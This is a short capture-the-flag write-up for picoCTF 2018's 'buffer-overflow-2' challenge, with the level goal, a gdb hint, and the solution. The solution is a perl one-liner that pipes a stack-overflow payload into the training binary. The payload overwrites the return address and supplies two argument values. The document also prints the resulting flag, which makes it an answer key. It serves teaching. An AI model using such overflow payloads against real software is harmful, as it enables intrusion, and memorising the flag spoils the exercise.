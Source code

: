 # LEVEL GOAL

Alright, this time you'll need to control some arguments. Can you get the flag from this program [1] ? You can find it in /problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa on the shell server. Source [2] .

# HINTS

(1) Try using gdb to print out the stack once you write to it!

# SOLUTION

```
nikel@pico-2018-shell-1:/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa$ perl -e 'print("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xcb\x85\x04\x08AAAA\xEF\xBE\xAD\xDE\xDE\xC0\xAD\xDE")' | ./vuln
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˅AAAAﾭ-
picoCTF{addr3ss3s_ar3_3asy1b78b0d8}Segmentation fault
```

# FLAG
picoCTF{addr3ss3s_ar3_3asy1b78b0d8}
